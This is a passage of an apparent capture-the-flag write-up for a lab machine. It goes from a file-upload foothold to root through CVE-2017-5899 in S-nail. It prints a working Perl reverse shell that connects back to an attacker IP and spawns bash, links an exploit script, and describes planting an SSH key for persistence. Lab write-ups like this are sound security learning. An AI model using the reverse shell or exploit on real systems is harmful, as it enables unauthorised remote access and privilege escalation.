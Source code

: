 Armed with the insight gleaned from the source code, let's upload again and find out where it's uploaded to.


{% include image.html image_alt="b88c841c.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/b88c841c.png" %}



{% include image.html image_alt="772cc8ce.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/772cc8ce.png" %}


Awesome.

Let's urlencode the following reverse shell in Perl.

```
perl -e 'use Socket;$i="10.10.14.169";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```


{% include image.html image_alt="7f0bcfe9.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/7f0bcfe9.png" %}


Perfect. Let's [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to a full TTY.

The file `user.txt` is at `help`'s home directory.


{% include image.html image_alt="2ae85f72.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/2ae85f72.png" %}


## Privilege Escalation

During enumeration of `help`'s account, I notice that the box is using a vulnerable version of S-nail.


{% include image.html image_alt="5dcd5da6.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/5dcd5da6.png" %}



{% include image.html image_alt="6c350cff.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/6c350cff.png" %}


The vulnerability is tagged [CVE-2017-5899](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5899).

Long story short, I found the perfect [exploit](https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh) in GitHub.

Simply copy over the exploit to the box. (There are several ways to do that.) I chose to mark my territory by putting a SSH public key I control to `/home/help/.ssh/authorized_keys`.

Once that's done, launch the script.
